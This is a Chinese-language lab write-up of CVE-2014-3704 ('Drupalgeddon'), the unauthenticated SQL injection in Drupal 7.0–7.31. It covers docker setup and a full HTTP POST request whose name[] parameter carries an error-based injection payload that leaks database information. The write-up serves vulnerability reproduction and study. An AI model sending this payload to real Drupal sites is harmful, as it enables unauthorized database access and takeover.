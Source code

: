 ```yaml
---
title: （CVE-2014-3704）Drupal < 7.32 “Drupalgeddon” sql注入漏洞
id: zhfly2891
---
```


# （CVE-2014-3704）Drupal < 7.32 “Drupalgeddon” sql注入漏洞

## 一、漏洞简介

Drupal 是一款用量庞大的CMS，其7.0~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

## 二、漏洞影响

Drupal 7.0~7.31

## 三、复现过程

### 漏洞环境

执行如下命令启动Drupal 7.31环境：

```
docker-compose up -d 
```

环境启动后，访问`http://your-ip:8080`即可看到Drupal的安装页面，使用默认配置安装即可。

其中，Mysql数据库名填写`drupal`，数据库用户名、密码为`root`，地址为`mysql`：

![image](../img/23c47976474311cc876dbc08c4351775.png)

安装完成后，访问首页：

![image](../img/91ed934711e16ebd5dc6ed6d79a93b9e.png)

### 漏洞复现

该漏洞无需认证，发送如下数据包即可执行恶意SQL语句：

```
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120 `pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a` 
```

可见，信息已被爆出：

![image](../img/df97e873a3420d196494be00f7878e9d.png)

## 参考链接

> https://vulhub.org/#/environments/drupal/CVE-2014-3704/